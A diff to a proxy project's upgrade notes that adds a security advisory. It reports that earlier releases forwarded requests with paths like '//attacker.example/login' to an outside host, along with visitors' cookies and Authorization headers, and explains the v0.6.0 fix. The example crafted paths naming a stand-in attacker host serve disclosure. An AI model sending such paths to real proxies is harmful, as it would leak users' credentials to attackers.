

Before and after one commit to basgr/cf-webmcp, a Markdown page: docs/upgrade.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/docs/upgrade.md
+++ b/docs/upgrade.md
@@ -2,7 +2,11 @@
 
 ## v0.6.0
 
-Some configs need changes, and most deployments need a step or two before the first deploy. The groups below go from what needs action to what is new.
+Some configs need changes, and most deployments need a step or two before the first deploy. The security fix comes first; the groups after it go from what needs action to what is new.
+
+### Security
+
+- **Upgrade promptly: v0.5.x and earlier fetched another host for some paths.** For a request whose path starts with `//` or `/\` (`https://your-site.example//attacker.example/login`; `/.//attacker.example/...` and `/..//attacker.example/...` too), the proxy fetched `attacker.example` instead of your origin. It sent that host the visitor's request as it came, with its method, its cookies (`HttpOnly` ones included), its `Authorization` header and its body, and served the answer under your domain, with the bootstrap injected. Every release since v0.1.0 does this, on every deployment that proxies page requests. v0.6.0 always fetches the origin of `[origin].base_url`, with the path as the URL parser wrote it: the request above goes to `<your origin>//attacker.example/login`, and origin answers it like any other path. Should a path ever produce a URL on another origin, the Worker answers `400` with the plain-text body `bad request path` and fetches nothing. There is no config to change.
 
 ### Before you deploy
 
```
Also changed, not shown: docs/deployment.md (+1 -1 lines), docs/limitations.md (+8 -0 lines).
